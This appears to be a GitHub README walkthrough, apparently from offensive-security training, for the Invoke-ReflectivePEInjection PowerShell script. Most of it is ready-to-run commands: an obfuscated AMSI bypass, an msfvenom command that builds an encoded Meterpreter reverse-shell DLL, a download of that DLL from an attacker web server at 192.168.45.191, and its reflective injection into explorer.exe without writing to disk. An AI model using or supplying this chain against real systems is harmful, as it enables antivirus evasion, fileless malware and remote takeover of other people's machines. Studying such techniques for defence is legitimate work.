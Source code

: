 # Invoke-ReflectivePEInjection

The script performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file. It has two separate modes, the first is to reflectively load a DLL or EXE into the same process, and the second is to load a DLL into a remote process.
Since the complete code is almost 3000 lines, we are not going to cover the code itself but rather its usage. We must specify a DLL or EXE as an array of bytes in memory, which allows us to download and execute it without touching the disk.

For this exercise, we will use a Meterpreter DLL. To reflectively load a Meterpreter DLL in explorer.exe, we are going to download it using the PowerShell DownloadData method, place it in a byte array, and look up the desired process ID.
In order to execute the required commands, we must open a PowerShell window with "PowerShell -Exec Bypass", which allows script execution. Once the window is open, we will run the commands below.

# Prerequesities:
1. Bypass PowerShell AMSI:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.Amsi'+[char]85+'tils').GetField('ams'+[char]105+'InitFailed','NonPublic,Static').SetValue($null,$true)
```

# How to use
1. Create a DLL payload using msfvenom and upload it to the attackers web server:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 prependfork=true -f dll -t 300 -e x64/xor_dynamic -o met.dll
```


2. To use _Invoke-ReflectivePEInjection_, we must first upload the script to the target machine and import it from its location with `Import-Module`:
```powershell
Import-Module .\Invoke-ReflectivePEInjection.ps1
```


3. Next we will load the DLL into a byte array and retrieve the `explorer` process ID.
  (**NOTE:** _change the process based on your target environment, you can also load an executables (.exe) bytes into memory as well_):
```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.191/met.dll')
$procid = (Get-Process -Name explorer).Id
```


4. Finally, supply the byte array (`-PEBytes`) and process ID (`-ProcId`) and execute the script:
```powershell
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

